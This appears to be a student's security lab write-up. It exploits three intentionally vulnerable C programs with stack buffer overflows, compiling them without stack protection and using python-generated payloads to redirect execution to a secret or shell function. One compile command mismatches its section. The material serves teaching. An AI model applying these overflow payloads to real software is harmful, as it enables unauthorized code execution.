

# LAB 1

**Run vitual environment by docker file (using for attacking three files: bof1, bof2, bof3)**

`docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab`

## File bof1.c

**Run bof1.c file** 

`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

 By using `-fno-stack-protector`, the program is compiled without stack protection, making it easier to exploit buffer overflow vulnerabilities, which might otherwise be caught by the stack protection mechanism.

 By using `-mpreferred-stack-boundary=2`, it's setting the stack alignment to 4 bytes (instead of the default 16 bytes), this option changes how memory is arranged on the stack, which may help in crafting certain types of memory exploits.

**Getting secretFunc() address by command**

`objdump -d bof1.out|grep secretFunc`

We get the address of secretFunc() is: `0804846b`

**Stack frame**

=> It’s a buffer overflow at the 205th byte.

**Run the program by using command**

- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- placement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)

 `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out`

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.

## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

**Run the bof2.c file by using the command**
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

**Run the program by using the command**

`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`

=> We attack successfully

## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

**Run the bof3.c file**

`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`

**Get the address of the shell function:**
`objdump -d bof3.out|grep shell`

We get the address of shell function is: `0804845b`

**Run the program by using command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

=> Seccessful
